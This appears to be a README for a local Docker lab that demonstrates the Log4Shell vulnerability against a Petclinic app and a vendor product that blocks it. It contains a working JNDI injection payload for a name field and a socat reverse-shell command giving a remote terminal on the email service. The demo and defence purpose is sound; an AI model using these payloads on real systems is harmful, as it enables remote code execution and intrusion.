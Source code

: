 

## Contrast Configuration

Before Starting up, you will need to configure the agent, by setting the credentials in the contrast_security.yaml. DO NOT CHECK THIS IN TO GIT.
During the docker build process it will download the latest agent version.
Whether Assess or Protect are enabled are controlled by environment variables in the `.env` and `docker-compose.yaml` files. This allows you to quickly enable/disable Assess/Protect without rebuilding the docker images.
Just change the values and restart ( docker-compose up ).

## Setup
Open the `.env` file and edit the value of the `INITIALS` environment variable, replacing `REPLACE_ME` with your initials. These initials are used for Server and Application naming in the `docker_compose.yaml` file.

Run the services up using docker ( from the root of the project )
```docker-compose up```

Once up, login to the log4shell service and open socat using the following command
```docker exec -it Log4ShellServer bash -c "/ListenForShell.sh"```

Then open a browser and access Petclinic
http://localhost:8080
Login as admin : password
Add a new Owner and add the following to the first or last name
```${jndi:ldap://log4shell-service:1389/jdk8}```
Once the owner is saved, you will be able to execute commands from the log4shell terminal.
The commands are run on the EmailService OS.



## What Is Happening

When you send the payload to the Petclinic application via the Owner firstname/lastname the following occurs.
* Petclinic sends the Owner details to the Email Service
* The Email Service logs that information using a vulnerable version of log4j
* Log4j initiates a JNDI/LDAP connection to the Log4Shell service and downloads a class
* That class is executed within the Email Service, which in turn executes the following commmand on the underlying OS of the Email Service
  * "socat TCP4:log4shell-service:8082 EXEC:/bin/bash"
* This, uses Socat create a reverse shell which calls back to the Log4Shell Service, allowing the terminal in Log4Shell to execute arbitrary commands on the Email Service and see the results.

## How to Block
* This can be blocked by Protect by setting to BLOCK in the Email Service the log4shell or JNDI rules.





